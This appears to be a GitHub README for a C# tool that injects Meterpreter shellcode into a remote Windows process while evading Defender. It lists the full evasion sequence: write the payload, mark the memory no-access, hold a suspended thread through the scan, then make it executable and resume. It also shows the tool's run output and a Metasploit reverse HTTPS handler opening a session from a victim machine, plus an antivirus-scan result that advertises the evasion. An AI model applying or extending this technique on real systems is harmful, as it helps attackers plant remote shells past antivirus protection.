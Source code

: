 # Suspended Thread Injection
Another meterpreter injection technique using C# that attempts to bypass Defender.

# Introduction
This code was written after reading [Bypassing Windows Defender Runtime Scanning](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) by **F-Secure Labs**. The technique I have written isn't the same but it got me thinking about how I can inject meterpreter into a remote process and go under the Defender radar.

The technique is quite simple:

- Open a remote process using `OpenProcess`.
- Decrypt the meterpreter payload in memory.
- Allocate some memory in the remote process using `VirtualAllocEx`, ensuring we assign the correct permissions to write to the memory of course.
- Write our payload into the allocated memory using `WriteProcessMemory`.
- Protect the memory using `VirtualProtectEx`, setting the protection to `PAGE_NO_ACCESS`.
- Create a new suspended thread using `CreateRemoteThread`.
- Sleep for 10 seconds while Defender scans the remote process memory for malicious code.
- Change the protection on the memory using `VirtualProtectEx`, setting the protection to `PAGE_EXECUTE_READ_WRITE`.
- Resuming the remote thread using `ResumeThread`

It would appear that protecting the page with `PAGE_NOACCESS` containing our meterpreter shellcode is not scanned by Defender and is not detected. By suspending the thread upon creation we are able to 'hold' the shellcode in memory until Defender has done it's scan then execute the shellcode when Defender has finished.

# Important
Remember, the code looks for an instance of notepad to inject into, it is trivial to change this, or even spawn a surregate process to inject in to.

# Example
Execution of the code is shown below:

```
[+] OpenProcess with PID 49416.
[+] VirtualAllocEx (PAGE_EXECUTE_READ_WRITE) on 0x2C4.
[+] WriteProcessMemory to 0x247A8CE0000.
[+] VirtualProtectEx (PAGE_NO_ACCESS) on 0x247A8CE0000.
[+] CreateRemoteThread (suspended) to 0x247A8CE0000.
[+] Sleeping whilst Defender scans the remote process.
[+] VirtualProtectEx (PAGE_EXECUTE_READ_WRITE) on 0x247A8CE0000.
[+] Resume thread 0x368.
```

And the meterpreter shell:

```
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: lsezjczd) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:60433) at 2021-10-07 08:32:00 +0100
```

# AV Scan Results

The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=bpyZ4JnoDmkL) on 07/10/2021.

![AV Scan](https://github.com/plackyhacker/SuspendedThreadInjection/blob/main/Suspended_scan.png?raw=true)

# Notes

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19042) with Defender.
